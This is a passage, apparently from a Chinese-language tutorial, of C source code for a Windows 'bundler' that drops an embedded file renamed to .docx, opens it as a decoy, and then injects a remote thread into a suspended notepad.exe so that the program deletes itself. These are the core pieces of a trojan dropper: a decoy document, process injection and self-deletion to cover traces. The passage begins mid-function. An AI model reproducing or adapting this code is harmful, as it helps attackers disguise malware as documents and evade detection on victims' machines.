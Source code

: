                 FileName[i + 4] = 'x';  
                break;  
            }  
        }  
        //循环找文件名中的.，找到后将文件名的后缀改为docx  
        //这个步骤主要是为了方便，以后只需要改exe的名称不需要到代码中来改  
        HANDLE FILE = CreateFileA(FileName, FILE_ALL_ACCESS, 0, NULL, CREATE_ALWAYS, 0, NULL);  
        //创建文件名相同的文件  
        DWORD dwSize;  
        WriteFile(FILE, PFILE, FileSize, &dwSize, NULL);  
        // 把资源文件中的内容写入  
      
        SHELLEXECUTEINFOA shellexecute = { 0 };  
        shellexecute.cbSize = sizeof(shellexecute);  
        shellexecute.lpFile = FileName;  
        shellexecute.nShow = SW_SHOW;  
        ShellExecuteExA(&shellexecute);  
        //打开docx文件  
      
        //下面是实现自删除，网上的自删除方法有很多，用的多的是批处理，这里是创建一个进程然后用远程线程注入来让notepad删除当前程序  
        STARTUPINFOA si = { 0 };  
        PROCESS_INFORMATION  pi = { 0 };  
        CreateProcessA("c:\\windows\\system32\\notepad.exe", 0, 0, 0, TRUE, CREATE_NO_WINDOW | CREATE_SUSPENDED, 0, 0, &si, &pi);  
        //创建进程  
        DeleteStruct DS;  
        DS.dwDeleteFile = GetProcAddress(GetModuleHandleA("kernel32.dll"), "DeleteFileA");  
        GetModuleFileNameA(NULL, DS.dwDeleteFile_param_1, MAX_PATH);  
        //创建远程线程不能直接使用API，需要把函数指针放在结构中传过去  
        //这里需要DeleteFileA这个函数，用GetProcAddress得到指针后传过去  
      
        LPVOID ADDRESS = VirtualAllocEx(pi.hProcess, 0, 2048, MEM_COMMIT, PAGE_EXECUTE_READWRITE);  
        WriteProcessMemory(pi.hProcess, ADDRESS, &threadProc, 2048, 0);  
        //为函数开辟一块内存  
      
        LPVOID pRemoteParam = VirtualAllocEx(pi.hProcess, 0, sizeof(DS), MEM_COMMIT, PAGE_EXECUTE_READWRITE);  
        WriteProcessMemory(pi.hProcess, pRemoteParam, &DS, sizeof(DS), 0);  
        DWORD RETSIZE;  
        //为参数开辟一块内存  
        HANDLE Thread = CreateRemoteThread(pi.hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)ADDRESS, pRemoteParam, 0, &RETSIZE);  
        //执行该线程  
        CloseHandle(Thread);  
        //关闭句柄  
      
    }  
      
    

Bundled.h

    
    
    #pragma once  
    #include<Windows.h>  
      